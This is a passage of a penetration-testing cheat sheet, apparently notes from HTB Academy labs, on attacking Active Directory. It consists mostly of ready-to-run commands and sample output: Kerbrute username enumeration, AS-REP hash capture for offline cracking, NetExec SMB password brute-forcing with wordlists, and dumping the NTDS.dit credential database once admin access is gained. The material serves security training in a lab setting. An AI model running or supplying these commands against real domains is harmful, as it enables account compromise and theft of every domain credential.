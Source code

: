 ```bash

# Example output:
# john, johnmarston, john.marston, jmarston, marstonj, etc.
```

### Username Enumeration with Kerbrute

#### Basic Username Enumeration (Safest Method)
```bash
# Enumerate valid usernames (no account lockouts)
./kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local usernames.txt

# Expected output:
# [+] VALID USERNAME: jmarston@inlanefreight.local
# [+] VALID USERNAME: cjohnson@inlanefreight.local
# [+] VALID USERNAME: jstapleton@inlanefreight.local
```

#### Advanced Kerbrute Options
```bash
# Verbose output with more details
./kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local usernames.txt -v

# Save valid usernames to file
./kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local usernames.txt -o valid_users.txt

# Capture AS-REP hashes for offline cracking
./kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local usernames.txt --hash-file asrep_hashes.txt
```

## 🗡️ Password Attacks Against Active Directory

### NetExec Dictionary Attacks

#### Single User Password Brute Force
```bash
# Brute force specific user with password list (ALWAYS include domain!)
netexec smb 10.129.201.57 -u jmarston -p /usr/share/wordlists/fasttrack.txt -d inlanefreight.local

# Expected output:
# SMB    10.129.201.57    445    DC01    [-] inlanefreight.local\jmarston:winter2017 STATUS_LOGON_FAILURE
# SMB    10.129.201.57    445    DC01    [-] inlanefreight.local\jmarston:winter2016 STATUS_LOGON_FAILURE
# SMB    10.129.201.57    445    DC01    [+] inlanefreight.local\jmarston:Password123!
```

#### HTB Academy Practical Example
```bash
# Example from HTB Academy lab - ILF.local domain
netexec smb 10.129.202.85 -u usernames.txt -p /usr/share/wordlists/fasttrack.txt --continue-on-success -d ILF.local

# With additional flags for comprehensive attack
netexec smb 10.129.202.85 -u usernames.txt -p /usr/share/wordlists/fasttrack.txt --continue-on-success -d ILF.local --verbose

# If admin credentials found - extract NTDS.dit immediately
netexec smb 10.129.202.85 -u FOUND_USER -p FOUND_PASS -d ILF.local --ntds
```
